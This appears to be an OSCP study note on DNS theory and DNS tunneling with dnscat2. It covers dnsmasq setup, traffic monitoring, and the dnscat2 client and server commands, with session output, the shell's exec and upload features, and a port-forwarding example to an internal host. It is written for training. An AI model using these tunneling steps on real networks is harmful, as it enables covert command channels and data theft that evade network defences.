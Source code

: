 ```yaml
---
aliases:
  - DNS tunneling
tags:
  - tech
  - cybsec
  - offensive_security
  - offsec
  - oscp
  - dns_tunneling
  - dns
  - tunneling
author: Mehdi N Tehrani
creat_date: 2024-01-04
category: Cyber Security
subcategory: Offensive Security - OSCP
---
```


# DNS Theory

![[Pasted image 20240104173546.png]]

## DNS query process
Client tries to reach `www.example.com`
- In most cases, we'll ask a DNS *recursive resolver server* for the DNS address record (*A record*) of the domain. The recursive resolver will make all the following DNS queries until it satisfies the DNS request, then returns the response to us.
- The recursive resolver holds a list of [root name servers](https://en.wikipedia.org/wiki/Root_name_server#Root_server_addresses) (as of 2022, there are 13 of them scattered around the world). Its first task is to send a DNS query to one of these root name servers. Because example.com has the `.com` suffix, the root name server will respond with the address of a DNS name server that's responsible for the `.com` top-level domain (TLD) - *TLD name server*.
- The recursive resolver then queries the `.com` TLD name server, asking which DNS server is responsible for `example.com`. The TLD name server will respond with the **authoritative name server** for the `example.com` domain.
- The recursive resolver then asks the `example.com` *authoritative name server* for the IPv4 address of `www.eexample.com`. The `example.com` authoritative name server replies with the **A record** for that.
The recursive resolver then returns that to us. All these requests and responses are transported over UDP, with UDP/53 being the standard DNS port.


# Set up simple DNS server
#simple #dns_server #light_weight #lightweight
## dnsmasq
#dnsmasq
```
# normal mode
sudo dnsmasq -C dnsmasq.conf
              ^ config

# non-daemon mode
sudo dnsmasq -C dnsmasq.conf -d
                              ^ not in daemon mode: to view the logs
```

## Check DNS status
To find out what DNS resolver the host is using in debian-based distros
#dns_status #debian #linux
```
resolvectl status
```

## Monitor DNS
#monitor #dns_traffic
```
sudo tcpdump -i <interface> udp port 53
```

# DNS Tunneling
#tunnel #tunneling 

## dnscat2
#dnscat #dnscat2
[dnscat2 GitHub](https://github.com/iagox86/dnscat2)
[dnscat2 GitHub - Usage](https://github.com/iagox86/dnscat2#usage)

`dnscat2` uses _CNAME_, _TXT_, and _MX_ queries and responses. As indicated by this network data, DNS tunneling is certainly not stealthy! This output reveals a huge data transfer from the dnscat2 client to the server. All the request and response payloads are **encrypted**.


### client
```sh
$ ./dnscat <domain>
```
Output:
```
Creating DNS driver:
 domain = feline.corp
 host   = 0.0.0.0
 port   = 53
 type   = TXT,CNAME,MX
 server = 127.0.0.53

Encrypted session established! For added security, please verify the server also displays this string:

Abate Frozen Tonite Frozen Parrot Unborn 

Session established!
```

### server
#server
```sh
dnscat2-server <domain>
```
output:
```
New window created: 0
New window created: crypto-debug
Welcome to dnscat2! Some documentation may be out of date.

auto_attach => false
history_size (for new windows) => 1000
Security policy changed: All connections must be encrypted
New window created: dns1
Starting Dnscat2 DNS server on 0.0.0.0:53
[domains = feline.corp]...

Assuming you have an authoritative DNS server, you can run
the client anywhere with the following (--secret is optional):

  ./dnscat --secret=6a6485b554ceb272c6f005a2b7d4d291 feline.corp

To talk directly to the server without a domain name, run:

  ./dnscat --dns server=x.x.x.x,port=53 --secret=6a6485b554ceb272c6f005a2b7d4d291

Of course, you have to figure out <server> yourself! Clients
will connect directly on UDP port 53.

dnscat2>
```
Once new window created:
```
dnscat2> New window created: 1
Session 1 security: ENCRYPTED BUT *NOT* VALIDATED
For added security, please ensure the client displays the same string:

>> Abate Frozen Tonite Frozen Parrot Unborn
```
#### dnscat config file
```
# Do not read /etc/resolv.conf or /etc/hosts
no-resolv
no-hosts

# Define the zone
auth-zone=feline.corp
auth-server=feline.corp
```

#### Monitoring using dnscat2 shell
- list windows using `windows`
#dnscat_window #dnscat_windows
```dnscat
dnscat2> windows
0 :: main [active]
  crypto-debug :: Debug window for crypto stuff [*]
  dns1 :: DNS Driver running on 0.0.0.0:53 domains = feline.corp [*]
  1 :: command (client_hostname) [encrypted, NOT verified] [*]
```

- interact with a window `window -i`
```dnscat
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 security: ENCRYPTED BUT *NOT* VALIDATED
For added security, please ensure the client displays the same string:

>> Abate Frozen Tonite Frozen Parrot Unborn
This is a command session!

That means you can enter a dnscat2 command such as
'ping'! For a full list of clients, try 'help'.

```

- list available commands using `?`
```
command (client_hostname) 1> ?

Here is a list of commands (use -h on any of them for additional help):
* clear
* delay
* download
* echo
* exec
* help
* listen
* ping
* quit
* set
* shell
* shutdown
* suspend
* tunnels
* unset
* upload
* window
* windows
```

#### tunneling
#tunneling  
Syntax
`listen 127.0.0.1:<lport> <rhost>:<rport>`

```dnscat
command (client_hostname)> listen 127.0.0.1:4646 172.16.240.217:4646
Listening on 127.0.0.1:4646, sending connections to 172.16.240.217:4646
```

#### commands help
```
command (pgdatabase01) 1> listen --help                                                                                                                      
Error: The user requested help
Listens on a local port and sends the connection out the other side (like ssh
-L). Usage: listen [<lhost>:]<lport> <rhost>:<rport>
  --help, -h:   Show this message
```
